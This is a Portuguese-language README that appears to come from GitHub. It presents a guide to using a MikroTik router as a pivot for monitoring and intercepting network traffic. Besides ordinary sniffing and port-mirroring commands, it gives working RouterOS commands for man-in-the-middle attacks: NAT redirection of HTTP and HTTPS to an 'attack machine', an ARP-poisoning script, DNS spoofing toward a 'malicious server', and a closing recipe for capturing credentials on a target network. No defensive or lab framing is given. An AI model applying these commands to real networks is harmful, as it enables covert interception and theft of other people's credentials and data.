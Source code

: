 <div align="center">
  <img src="./microtik.png">
</div>
# Guia de Ataques e Monitoramento com MikroTik

Este guia apresenta técnicas para usar um roteador MikroTik como ponto de pivô em uma rede, permitindo tanto o monitoramento quanto a interceptação de tráfego. Estas técnicas são semelhantes às funcionalidades do Wireshark, porém com a vantagem de estarem posicionadas estrategicamente na infraestrutura da rede.

## Monitoramento de Tráfego

### Análise em Tempo Real com Torch

O comando "torch" permite análise de tráfego em tempo real nas interfaces do MikroTik:

```
/tool torch interface=ether2 src-address=0.0.0.0/0 dst-address=0.0.0.0/0
```

Este comando mostra o tráfego que passa pela interface ether2 em tempo real, com informações sobre origem, destino, protocolo e taxa de transferência.

### Captura de Pacotes com Packet Sniffer

O packet sniffer do MikroTik funciona de modo semelhante ao Wireshark:

```
/tool sniffer set filter-interface=ether1 filter-ip-address=192.168.1.0/24 memory-limit=10KiB
/tool sniffer start
```

Depois, você pode ver os pacotes capturados:

```
/tool sniffer packet print
```

Com esta ferramenta, você pode:
- Capturar o conteúdo completo dos pacotes, incluindo payloads
- Ver tráfego em texto plano (HTTP, SMTP, FTP, etc.)
- Analisar handshakes TCP, cabeçalhos e detalhes de protocolo
- Exportar os dados capturados para análise posterior

### Port Mirroring

O port mirroring permite replicar todo o tráfego de uma porta para outra:

```
/interface ethernet switch port
set 1 mirror-source=ether2
set 2 mirror-target=yes
```

Esta configuração:
- Replica todo o tráfego da porta 1 (ether2) para a porta 2
- Permite que uma máquina conectada à porta 2 analise o tráfego passivamente
- Captura comunicações sem interferir no caminho de comunicação

## Interceptação de Tráfego

### Proxy Transparente Básico

Redireciona o tráfego HTTP para o próprio MikroTik:

```
/ip firewall nat add chain=dstnat action=redirect to-ports=8080 protocol=tcp dst-port=80
```

### Proxy com Redirecionamento para Máquina Externa

Redireciona o tráfego HTTP para uma máquina de ataque:

```
/ip firewall nat add chain=dstnat action=dst-nat to-addresses=192.168.1.10 to-ports=8080 protocol=tcp dst-port=80
```

Neste exemplo, 192.168.1.10 seria um computador rodando ferramentas como Burp Suite, ZAP ou mitmproxy.

### Interceptação de HTTPS

Para interceptar HTTPS:

```
/ip firewall nat add chain=dstnat protocol=tcp dst-port=443 action=dst-nat to-addresses=192.168.1.10 to-ports=8443
```

## Técnicas Avançadas de MITM

### ARP Poisoning via Script

```
/system script add name="arp-mitm" source={
  :local targetIP "192.168.1.5"
  :local gatewayIP "192.168.1.1"
  :local myMAC [/interface ethernet get ether1 mac-address]
  
  /ip arp add address=$targetIP mac-address=$myMAC
  /ip arp add address=$gatewayIP mac-address=$myMAC
}
```

Este script faz o MikroTik se passar tanto pelo gateway quanto pelo dispositivo alvo.

### DNS Spoofing

```
/ip dns static add name="alvo.com" address=192.168.1.10
```

Isso redireciona requisições DNS para "alvo.com" para o servidor malicioso.

### Bridge Transparente

```
/interface bridge add name=bridge1
/interface bridge port add bridge=bridge1 interface=ether1
/interface bridge port add bridge=bridge1 interface=ether2
```

Esta configuração coloca o MikroTik literalmente no meio do caminho, tornando-o transparente enquanto captura todo o tráfego.

## Combinando as Técnicas

Para máxima eficácia, considere:

1. Posicionar o MikroTik como bridge transparente entre segmentos de rede
2. Aplicar redirecionamento seletivo de tráfego para suas ferramentas de análise
3. Utilizar o sniffer para capturar credenciais e dados sensíveis
4. Implementar ARP poisoning e DNS spoofing para ataques direcionados

Estas técnicas permitem tanto o monitoramento passivo quanto a interceptação ativa, dando visibilidade completa sobre o tráfego da rede-alvo.
